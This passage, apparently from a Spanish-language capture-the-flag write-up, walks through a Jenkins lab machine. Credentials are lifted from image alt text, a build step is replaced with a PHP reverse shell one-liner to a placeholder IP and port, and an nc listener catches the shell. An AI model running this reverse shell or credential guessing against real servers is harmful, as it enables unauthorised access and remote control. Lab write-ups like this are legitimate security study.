 Veremos esa seccion de ahi que es donde se alojan las imagenes, en el codigo hay nombres alternativos por si no cargara la imagen.

```html
<img src="https://miro.medium.com/v2/resize:fit:1400/0*_n2AQxhJSwAlIMke" alt="jenkins-admin">

<img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSm9QsnEbRf5NU51IyoPD3LSok3q4d_25auKA&s" alt="cassandra">
```

Hay 2 nombres sospechosos `jenkins-admin` y `cassandra`, por lo que podremos probar las dos combinaciones en el panel de login del jenkins, metiendonos mediante `HTTPS`.

```
URL = https://jenkhack.hl/
```

Si probamos como usuario `jenkins-admin` y como contraseña `cassandra` veremos que son las credenciales correctas y estaremos dentro como administradores.

## Panel admin jenkins

### Reverse Shell

Si nos vamos a la siguiente ubicacion `My-views`, dentro de aqui pinchamos en `admin`, le damos a la opcion `configure`, podremos bajar un poco donde pone `Build Steps` y hay un fragmento de codigo en bash como `whoami`, pues esto lo cambiaremos por una `reverse shell` de la siguiente forma.

```
URL = https://jenkhack.hl/me/my-views/view/all/job/admin/configure
```

```php
php -r '$sock=fsockopen("<IP>",<PORT>);shell_exec("sh <&3 >&3 2>&3");'
```

Y le damos a `Apply`, seguidamente `Save`, una vez hecho eso, antes de ejecutarlo, estaremos a la escucha.

```shell
nc -lvnp <PORT>
```

Y en la pagina del jenkins, le damos a la opcion llamada `Build Now`, esto lo que hara sera ejecutar el fragmento de codigo, si nos vamos a donde teniamos la escucha veremos que tendremos una shell con el usuario `jenkins`.

Info:

```
connect to [192.168.5.145] from (UNKNOWN) [172.19.0.2] 34364
whoami
jenkins
```

Sanitizamos la shell (TTY).

```shell
script /dev/null -c bash
```
